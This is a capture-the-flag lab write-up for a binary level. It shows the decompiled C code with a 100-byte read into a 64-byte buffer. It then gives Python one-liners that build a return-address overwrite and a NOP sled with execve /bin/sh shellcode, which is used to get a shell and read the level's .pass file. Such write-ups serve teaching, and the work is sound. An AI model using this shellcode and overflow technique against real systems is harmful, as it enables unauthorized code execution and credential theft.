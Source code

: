 #LEVEL 01

* decompile the binary
    ```c
    char in_user_name[256];
    char *user = "dat_wil";

    int verify_user_name() { return strncmp(user, in_user_name, 7); }

    int main() {
        int error;
        char password[64];
        ...
        fgets(in_user_name, 256, stdin);
        error = verify_user_name();
        if (error == 0) {
            fgets(password, 100, stdin);
        }
        ...
    }
    ```
  - store string username and compare it to `dat_wil`
  - if equal store string password
    + store 100 byte in buffer of 64 byte so we can override the return address

  ___

* prepare
    - python -c 'print "dat_wil"; print " " * 76 + "\x00\x00\x00\x00" + "\xc9\xd8\xff\xff"' > input
    - python -c 'print "\x90" * 100 + "\x31\xC9\xF7\xE1\x51\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\xB0\x0B\xCD\x80"' > shell_code
        > <b> explained in the last section </b>
  ___

* exec bin: `cat input - | ./level01 $(cat shell_code)`
    - got the shell prompt
    - cat /home/users/level01/.pass -> flag

```
$ \x00\x00\x00\x00 -> ebp value in stack to not make the programe try to get the value from a bad address

$ \xc9\xd8\xff\xff -> shell code stack address

$ \x31\xC9\xF7\xE1\x51\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\xB0\x0B\xCD\x80 -> shell_code
```